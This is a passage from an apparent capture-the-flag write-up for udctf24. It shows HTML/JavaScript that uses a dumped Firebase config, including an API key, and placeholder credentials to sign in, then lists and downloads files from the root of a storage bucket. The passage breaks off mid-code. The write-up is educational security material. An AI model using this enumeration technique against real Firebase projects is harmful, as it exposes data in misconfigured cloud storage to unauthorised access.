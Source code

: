 Since this worked, we would have to find out what rules are in place - I spent quite of time blindly looking how to do this since you could fetch `db.child("rules")` but that would return `None`.
However one of the previous writeups used the reference to the root path `/` of storage so we could list and download if anything is there.
For this JavaScript Firebase SDK is more suitable.

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
</head>
<body>

    <!-- Include Firebase SDK -->
    <script type="module">
        import { initializeApp } from "https://www.gstatic.com/firebasejs/9.6.10/firebase-app.js";
        import { getAuth, signInWithEmailAndPassword } from "https://www.gstatic.com/firebasejs/9.6.10/firebase-auth.js";
        import { getStorage, ref, listAll, getDownloadURL } from "https://www.gstatic.com/firebasejs/9.6.10/firebase-storage.js";

        // firebase config that we dumped
        const firebaseConfig = {
            apiKey: "AIzaSyBX_qnDyJ9pl_csJUprUywtAh9lUbVqPFU",
            authDomain: "udctf24.firebaseapp.com",
            databaseURL: "https://udctf24-default-rtdb.firebaseio.com",
            projectId: "udctf24",
            storageBucket: "udctf24.firebasestorage.app",
            messagingSenderId: "926833250426"
        };

        // initialize Firebase
        const app = initializeApp(firebaseConfig);
        const auth = getAuth(app);
        const storage = getStorage(app);

        // user creds
        const email = "test@test.com"; //placeholder again
        const password = "newpassword123";

        // auth user
        async function authenticateUser() {
            try {
                const userCredential = await signInWithEmailAndPassword(auth, email, password);
                console.log("Successfully authenticated:", userCredential.user.email);
                return userCredential.user;
            } catch (error) {
                console.error("Authentication failed:", error.message);
                throw error;
            }
        }

        // list and download if some file is found
        async function listAndDownloadFiles() {
            try {
                const user = await authenticateUser();
                console.log("Listing and downloading files from Firebase Storage...");

                // reference to the root of the storage bucket
                const storageRef = ref(storage, "/");

                // list all files in the storage bucket
```